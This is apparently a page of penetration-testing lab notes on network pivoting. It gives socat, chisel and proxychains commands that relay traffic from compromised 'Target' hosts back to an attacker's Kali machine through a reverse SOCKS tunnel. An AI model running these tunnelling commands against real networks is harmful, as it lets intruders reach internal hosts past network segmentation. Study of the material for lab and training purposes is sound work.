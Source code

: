 ```bash
echo "socks5 127.0.0.1 5555" >> /etc/proxychains4.conf #it adds IP and port in listening mode on chisel attacker machine
```

<div align="left"><figure><img src="../../../../.gitbook/assets/image (57).png" alt=""><figcaption><p>/etc/proxychains4.conf</p></figcaption></figure></div>

{% hint style="info" %}
If we'll give an error during next connections, we need to insert line to the top line of the previous request (as photo) or if "dynamic\_chain" option is commented out and strict\_chain" option is uncommented.
{% endhint %}

Execute socat on target 1 using a different port on listening and attacker machine IP and Port:

```bash
#Target 1
./socat tcp-l:2222,fork,reuseaddr tcp:10.10.10.4:111 #tcp-l: listening port, send data to tcp:attacker:port
```

while we execute chisel on target 2 (using Target 1's IP of 2nd net interface in common between target 1 and 2, in addition we specify proxychains socks port: with R:5555:socks):

```bash
#Target 2
./chisel client 20.20.20.7:2222 R:5555:socks
```

well done, we obtained a new session tunnel on Kali:

<div align="left"><figure><img src="../../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure></div>

Now, we've visibility with the target 3.

```bash
#Kali
proxychains curl 30.30.30.4
```

<div align="left"><figure><img src="../../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure></div>
